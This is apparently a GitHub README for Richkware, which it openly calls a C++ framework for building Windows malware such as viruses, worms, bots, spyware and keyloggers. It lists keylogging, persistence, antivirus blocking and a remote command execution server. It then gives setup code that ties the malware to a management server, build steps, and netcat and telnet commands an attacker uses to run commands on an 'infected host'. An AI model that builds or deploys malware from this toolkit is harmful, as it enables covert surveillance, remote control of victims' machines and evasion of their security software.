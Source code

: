 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)
[![Codacy Badge](https://api.codacy.com/project/badge/Grade/e6b4a003d5e7404c80225391bfe34f45)](https://app.codacy.com/app/richkmeli/Richkware?utm_source=github.com&utm_medium=referral&utm_content=richkmeli/Richkware&utm_campaign=Badge_Grade_Dashboard)

C++で書かれたWindows向けマルウェア構築のためのフレームワーク。

## 概要

Richkwareは、マルウェアを作成するために使用できるライブラリです。
これらの関数を組み合わせることで、以下のようなマルウェアを想定した挙動をすることができます。

- ウイルス
- ワーム
- ボット
- スパイウェア
- キーロガー
- スケアウェア

## 関連プロジェクト

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Richkwareを使用して開発されたマルウェアのサンプルが存在するホストを管理するためのサービスです。

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Richkware-Manager-Serverのクライアントで、サーバーから全ホストのリストを取得し、それらにあらゆる種類のコマンドを送信することができるようになります。

![](https://raw.githubusercontent.com/richkmeli/richkmeli.github.io/master/Richkware/Diagram/RichkwareDiagram1.2.png)

## ドキュメント

|              | 英語                          | イタリア語                     |
|--------------|:------------------------------:|:------------------:|
| 説明 | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Slide.pdf)  | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Slide.pdf)     |
| 情報       | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Report.pdf) | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Relazione.pdf) |

## 関数

### ネットワーク

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](https://raw.githubusercontent.com/richkmeli/richkmeli.github.io/master/Richkware/Diagram/RichkwareCryptographyDiagram1.1.png)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create an instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
If you have deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can initialize the malware as follows:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080", "associatedUser");
                ...
                return 0;
            }
        
that it gets a secure key from Richkware-Manager-Server and it sets the key as encryption key.
**DefaultPass** is used as temporary encryption key to ensure a secure communication with RMS and if the malware cannot reach the RMS for getting its encryption ket, it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Otherwise, if you haven't deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can use: 
         
     Richkware richkware("Richk","richktest");
         
 in this way, it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage
In the following example, we call "**server**", a malware developed using Richkware framework and in which it has been enabled the function for creating a server, and "**client**", the creator(Hacker) of the malware that is trying to establish a connection with the infected PC.

### Server-side

#### Remotely Command Execution

Call framework function **StartServer** in the main, it starts server on a port, in the following example is the TCP port 8000. Remember that if a port is already used by another program, you can't use that port, until the program will be stopped.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Client-side

#### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client), otherwise if it's not present you can easily use a terminal.

#### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**, and run the following command:

	nc <serverName> 8000
	
if the server received the request on the open port and it succeeds to create a connection, it responses to the client confirming the establishment of the connection, after that, you can write:
    
    [[1]]COMMAND
    
where *COMMAND* is a command that has to be executed on the infected host where server is running.

#### Connect using terminal in Windows

In Windows, you can use **telnet**, in the same way:

	telnet <serverName> 8000

...
    
    [[1]]COMMAND
    
